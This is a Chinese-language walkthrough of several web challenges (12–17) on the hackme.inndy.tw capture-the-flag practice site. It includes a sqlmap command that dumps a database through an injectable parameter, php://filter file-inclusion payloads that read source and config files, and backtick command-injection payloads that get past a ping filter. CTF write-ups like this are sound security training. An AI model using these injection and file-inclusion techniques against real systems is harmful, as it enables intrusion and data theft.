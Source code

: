 # Web

## 12: hide and seek

在主页代码里面，搜索 FLAG 即可。

## 13: guestbook

> [sqlmap](http://sqlmap.org/) is your friend.

所以让我们的「好朋友」出场吧。

最终可以发现，`https://hackme.inndy.tw/gb/?mod=read&id=10` 中的 `id` 参数可以 SQL 注入。于是最终的 payload:

```shell
sqlmap -u "https://hackme.inndy.tw/gb/?mod=read&id=10" -p id --dbs -D g8 --dump
```

## 14: LFI

LFI 是什么？它是 Local File Inclusion（本地文件包含）的缩写。

可以观察到该题的 URL 如下：

```
https://hackme.inndy.tw/lfi/?page=pages/index
https://hackme.inndy.tw/lfi/?page=pages/intro
https://hackme.inndy.tw/lfi/?page=pages/login
https://hackme.inndy.tw/lfi/?page=pages/flag
```

因此可以猜测，`page` 参数可以会有文件包含漏洞。访问 `https://hackme.inndy.tw/lfi/?page=notfound`（不存在的文件）可以看到一个小彩蛋 233333。

直接访问 `https://hackme.inndy.tw/lfi/?page=pages/flag` 得不到任何东西。根据提示 `php://filter`，可以构造：

```
https://hackme.inndy.tw/lfi/?page=php://filter/read=convert.base64-encode/resource=pages/flag
```

将得到的内容用 base64 解码，得到：

```php+HTML
Can you read the flag<?php require('config.php'); ?>?
```

emmm 那看看 `config.php` 里面是什么吧。Payload:

```
https://hackme.inndy.tw/lfi/?page=php://filter/read=convert.base64-encode/resource=pages/config
```

解码后即可得到 flag。

## 15: homepage

主页中引用了 `https://hackme.inndy.tw/cute.js`，复制下来在控制台里运行然后扫码即可。

## 16: ping

源代码显示这个程序会对输入进行检测，然后执行 `ping`。我们的目标是命令执行，而不是真去  `ping`。PHP 中的 `exec()` 有点像 C 库的 `system()`，都是调用系统 shell 来执行命令，而不是直接去 `execve()`，所以我们可以在参数中加一点东西，让 shell 执行开发者意料之外的命令。有一些限制条件：

- 我们的 payload 不能超过 15 个字符。
- 一些特定的单词、符号不能够出现。

虽然很多常见的符号被过滤了，但是 `` ` `` 没有被过滤掉。

可以看看目录下面有什么：

```
`ls`
```

返回：

```
ping: unknown host flag.php
index.php
```

很明显，我们需要查看 `flag.php` 的内容，但是 `cat` 被过滤了。所以考虑用 `head` 或者 `tail` 来查看 flag.php。`flag` 被过滤了，但是可以用通配符。

Payload:

```
`tail f*`
```

## 17: scoreboard

记分板页面隐藏着怎样的秘密？查看源代码，没有发现什么有用的东西。转向网络请求，发现返回头的 `x-flag` 参数就是我们要的 flag。